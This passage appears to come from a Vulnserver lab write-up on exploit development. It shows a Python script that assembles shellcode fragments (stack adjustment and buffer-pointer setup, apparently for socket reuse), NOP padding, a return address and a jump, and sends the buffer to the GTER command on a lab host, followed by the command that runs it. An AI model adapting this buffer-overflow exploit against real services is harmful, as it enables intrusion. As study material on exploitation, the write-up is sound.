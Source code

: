 Adding it to our python script,

```c                                                                     
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat buffer-pointer.py 
import socket, sys

file_descriptor=b""
file_descriptor+=b"\xcc"
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

stack_adjustment=b""
stack_adjustment+=b"\x83\xec\x70"

flag_value=b""
flag_value+=b"\x31\xc0"
flag_value+=b"\x50"

buffer_size=b""
buffer_size+=b"\x80\xc4\x04"
buffer_size+=b"\x50"

buffer_pointer=b""
buffer_pointer+=b"\x54"
buffer_pointer+=b"\x58"
buffer_pointer+=b"\x83\xc0\x70"
buffer_pointer+=b"\x50"

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 buffer-pointer.py
```
